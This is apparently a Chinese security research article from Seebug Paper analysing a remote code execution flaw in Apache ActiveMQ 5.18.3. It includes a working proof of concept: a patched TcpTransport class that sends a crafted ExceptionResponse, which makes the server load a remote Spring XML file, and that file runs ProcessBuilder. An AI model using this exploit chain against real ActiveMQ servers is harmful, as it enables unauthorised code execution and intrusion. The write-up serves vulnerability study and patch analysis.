 

# Apache ActiveMQ (版本 5.18.3) RCE 分析

**作者: X1r0z  
本文为作者投稿，Seebug Paper 期待你的分享，凡经采用即有礼品相送！ 投稿邮箱：paper@seebug.org**

中午吃饭的时候看到赛博昆仑发了 Apache ActiveMQ 的漏洞通告, 于是去翻了翻 github commit，第一眼看感觉跟之前那个 spring-amqp 的漏洞差不多就偷个懒没复现, 后来发现大伙都在看这个洞。自己之前没怎么接触过 ActiveMQ, 不过好在最后花了一点时间复现了出来, 简单记录一下分析的思路。

![image-20231025204432557](assets/1699429306-6b1fe0ed79475dca935a8341d5165a57.png)

根据 diff 可以发现新版本为 BaseDataStreamMarshaller 类加入了 validateIsThrowable 方法

```java
public static void validateIsThrowable(Class<?> clazz) {
    if (!Throwable.class.isAssignableFrom(clazz)) {
        throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
    }
}
```

然后经过一些简单的搜索可以发现 ExceptionResponseMarshaller 这个类, 它是 BaseDataStreamMarshaller 的子类。

其 tightUnmarshal/looseUnmarshal 方法会调用 tightMarshalThrowable/looseMarshalThrowable, 最终调用到 BaseDataStreamMarshaller 的 createThrowable 方法, 后者可以调用任意类的带有一个 String 参数的构造方法。

ExceptionResponseMarshaller 顾名思义就是对 ExceptionResponse 进行序列化/反序列化的类。

ExceptionResponse 的定义如下：

```java
package org.apache.activemq.command;

public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
    Throwable exception;

    public ExceptionResponse() {
    }

    public ExceptionResponse(Throwable e) {
        this.setException(e);
    }

    public byte getDataStructureType() {
        return 31;
    }

    public Throwable getException() {
        return this.exception;
    }

    public void setException(Throwable exception) {
        this.exception = exception;
    }

    public boolean isException() {
        return true;
    }
}
```

回到上面的 BaseDataStreamMarshaller

![image-20231025205332740](assets/1699429306-8f92314c289ad6c4d3773f8d1cd6adaf.png)

有若干 Marshal/unmarshal 方法，这里以 tightUnmarsalThrowable 为例。

![image-20231025205428485](assets/1699429306-26e28e3cb602fa2f72e73def85c5e349.png)

方法内部会获取 clazz 和 message, 然后调用 createThrowable。

找到对应的 tightMarshalThrowable

![image-20231025205540694](assets/1699429306-592cfe08981e65a1c48615107f79f734.png)

o 就是 ExceptionResponse 里面的 exception 字段 (继承了 Throwable), 然后分别将 o 的 className 和 message 写入序列化流。

到这里思路其实已经差不多了, 我们只需要构造一个 ExceptionResponse 然后发给 ActiveMQ 服务器, 之后 ActiveMQ 会自己调用 unmarshal, 最后触发 createThrowable。

下面只需要关注如何发送 ExceptionResponse 即可，参考网上的入门教程写了一个 demo。

```java
package com.example;

import org.apache.activemq.ActiveMQConnectionFactory;

import javax.jms.*;

public class Demo {
    public static void main(String[] args) throws Exception {

        ConnectionFactory connectionFactory = new ActiveMQConnectionFactory("tcp://localhost:61616");
        Connection connection = connectionFactory.createConnection();
        connection.start();
        Session session = connection.createSession();
        Destination destination = session.createQueue("tempQueue");

        MessageProducer producer = session.createProducer(destination);
        Message message = session.createObjectMessage("123");
        producer.send(message);

        connection.close();
    }
}
```

然后随便打几个断点试试 (注意在一次通信的过程中 ActiveMQ 会 marshal / unmarshal 一些其它的数据, 调试的时候记得判断)。

`org.apache.activemq.openwire.OpenWireFormat#doUnmarshal()`

先获取 dataType, 然后根据它的值去 this.dataMarshallers 里面获取对应的序列化器。

![image-20231025210619045](assets/1699429306-d1d85240705186eafe675d69e333b059.png)

这个 dataType 其实对应的就是 Message 类内部的 `DATA_STRUCTURE_TYPE` 字段。

在 demo 中我们发送的是一个 ObjectMessage (ActiveMQObjectMessage) 对象, 它的 dataType 是 26。

![image-20231025210805989](assets/1699429306-cdbde067d6c478693b89a5037ecaff9f.png)

而 ExceptionResponse 的 dataType 是 31, 对应上图中的 ExceptionResponseMarshaller。获取到了对应的序列化器之后, 会调用它的 tightUnmarshal / looseUnmarshal 方法进一步处理 Message 内容。

![image-20231025210630931](assets/1699429306-e4bd2c8217b5855966d0e9b40f749b18.png)

我一开始的思路是去修改 ObjectMessage 的 `DATA_STRUCTURE_TYPE` 字段, 把它改成 31 然后发送，后来想了一会发现不能这么搞, 因为对于不同的 Message 类型, 序列化器会单独进行处理, 比如调用 writeXXX 和 readXXX 的类型和次数都不一样。

因为 ExceptionResponseMarshaller 也有 marshal 方法, 所以思路就改成了如何去发送一个经由这个 marshaller 处理的 ExceptionResponse，后面开始调试 client 发数据的过程，给 OpenWireFormat 的 marshal 系列方法打个断点。

![image-20231025212245511](assets/1699429306-0dcb89ab4894d09470aee6da59f7571e.png)

调用栈往前翻可以找到 TcpTransport 这个类。

![image-20231025212419043](assets/1699429306-2de2ed3d6245cb0ff342936627332a98.png)

它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command，command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器。

那么我们只需要手动 patch 这个方法, 将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可，这里我没有分析 OpenWire 协议, 而是用了一个比较取巧的办法。

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类, 然后重写对应的逻辑, 这样在运行的时候, 因为 classpath 查找顺序的问题, 程序就会优先使用当前源码目录里的 TcpTransport 类。

然后是 createThrowable 方法的利用, 这块其实跟 PostgreSQL JDBC 的利用类似, 因为 ActiveMQ 自带 spring 相关依赖, 那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE。

```java
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名, 而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类。

![image-20231025213315518](assets/1699429306-45ae38bfbca34f9d5d549abab4b3290f.png)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

![image-20231025213442268](assets/1699429306-5146db04705f7b2e27ce1c54ae2e30df.png)

**参考链接:**

1.  [https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f](https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f " https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f")
    
2.  [https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java](https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java "https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java")
    

- - -

![Paper](assets/1699429306-446834a71d30acd0479540c0e3cdf1d3.jpeg) 本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/3058/](https://paper.seebug.org/3058/)
